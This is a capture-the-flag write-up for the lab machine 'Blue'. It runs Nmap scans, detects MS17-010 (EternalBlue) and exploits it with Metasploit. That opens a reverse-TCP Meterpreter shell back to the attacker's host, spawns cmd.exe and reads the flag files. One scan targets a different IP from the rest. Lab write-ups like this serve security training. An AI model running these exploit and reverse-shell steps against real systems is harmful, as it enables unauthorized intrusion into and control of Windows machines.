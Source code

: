 
# Blue

First, we create a working directory named Blue:

```ruby
mkdir Blue
```

## Port Scanning

We ping the target to check our connection: 

```ruby
ping 10.10.10.40
```

A TTL of 127 tells us it's a Windows machine.

### Nmap Scan

We use Nmap to find open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.3 -oG allPorts
```


```ruby
PORT      STATE SERVICE      REASON
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
49152/tcp open  unknown      syn-ack ttl 127
49153/tcp open  unknown      syn-ack ttl 127
49154/tcp open  unknown      syn-ack ttl 127
49155/tcp open  unknown      syn-ack ttl 127
49157/tcp open  unknown      syn-ack ttl 127

```

We do a more detailed scan:

```ruby
nmap --script=firewall-bypass -p135,139,445,49152,49153,49154,49155,49157 -vvv -oN targeted 10.10.10.40
```

```ruby

Host script results:
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

```

The scan shows the machine is vulnerable to MS17-010 (EternalBlue).


## Exploiting MS17-010

We use Metasploit to exploit this vulnerability:


```ruby
searchsploit ms17-010
```

We find:

``` ruby
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14   average  Yes
```

We set up Metasploit:

```ruby
msf6 exploit(windows/smb/ms17_010_eternalblue) > setg LHOST 10.10.14.13
LHOST => 10.10.14.13

msf6 exploit(windows/smb/ms17_010_eternalblue) > setg RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
```


Then we run the exploit:

```ruby 
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
.....
[*] Meterpreter session 2 opened (10.10.14.13:4444 -> 10.10.10.40:49164) at 2023-06-28 09:20:26 -0400
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```
We get a Meterpreter shell.

```ruby
meterpreter > ls
Listing: C:\Windows\system32
...
```

### Improving the Shell

To get a better shell, we run:

```ruby 
meterpreter > execute -c -f cmd.exe -H -i -d
```

This gives us a Windows-like shell.

```ruby 
Process 1820 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>

```


#### Finding the Flags

To find the flags, we use:

```ruby
dir /s /b root.txt user.txt
```
This shows us two files:

```ruby
C:\Users\Administrator\Desktop\root.txt
C:\Users\haris\Desktop\user.txt
```

To read a flag, we use:

```ruby 
type C:\Users\Administrator\Desktop\root.txt
```